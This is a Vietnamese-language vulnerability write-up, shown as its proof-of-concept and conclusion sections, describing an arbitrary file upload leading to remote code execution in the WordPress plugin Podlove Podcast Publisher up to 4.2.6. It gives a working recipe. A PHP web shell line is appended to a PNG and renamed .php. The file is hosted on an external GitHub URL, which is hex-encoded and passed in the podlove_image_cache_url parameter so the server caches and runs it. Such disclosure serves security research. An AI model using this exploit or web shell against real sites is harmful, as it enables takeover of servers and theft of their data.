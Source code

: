 ## Exploit

### Proof of Concept (PoC)

1. Thêm `<php>` tag vào file ảnh và đổi extension thành `.php`

```bash 
echo '<?php system($_REQUEST["cmd"]); ?>' >> rce.png
mv rce.png rce.php
```

```bash
❯ cat rce.php
�PNG
␦
IHD��Ud�tEXtSoftwaregnome-screenshot��>-tEXtCreation TimeSat 01 Nov 2025 02:58:29 PM +075����IDATH���A
� ��GHI��l��l�˅��K�n�D
�H)���a:kooܲ<`�u�o�
�{�3�9�1�~��      �9����P�1����R�!D>Lk���FT�r�|�Ru��	u��o'�`��?�!"��
2k���IEND�B`�<?php system($_REQUEST["cmd"]); ?>
```

2. Lưu file ở đâu đó trên internet, domain không trùng với wordpress domain website,
ví dụ:

```
https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

3. Mã hóa hex(https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php)

```bash
❯ echo -n "https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php" | xxd -p
68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870
```

3. Gửi GET request với param `podlove_image_cache_url=68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870`

![File Uploaded](file_uploaded.png "Upload file thành công")

4. Truy cập file vừa tạo và RCE

![Result](result.png "RCE với file upload")

> [!INFO]
> `02/9acf743e6beb9c8e4395ee694d6504` như phân tích trước đó, nó là `md5($url)`, sau đó tạo cấu trúc thư mục `first_2_characters/remaining_characters` dựa trên kết quả của `md5()`

## Conclusion

Lỗ hổng trong **Podlove Podcast Publisher ≤ 4.2.6** cho phép tải lên file tùy ý do thiếu kiểm tra định dạng trong `move_as_original_file()`. Kẻ tấn công có thể tải file độc hại (ví dụ `.php`) lên thư mục:
`wp-content/cache/podlove/<first2>/<rest>/`,
từ đó dẫn đến **Remote Code Execution (RCE)** nếu file được truy cập công khai.

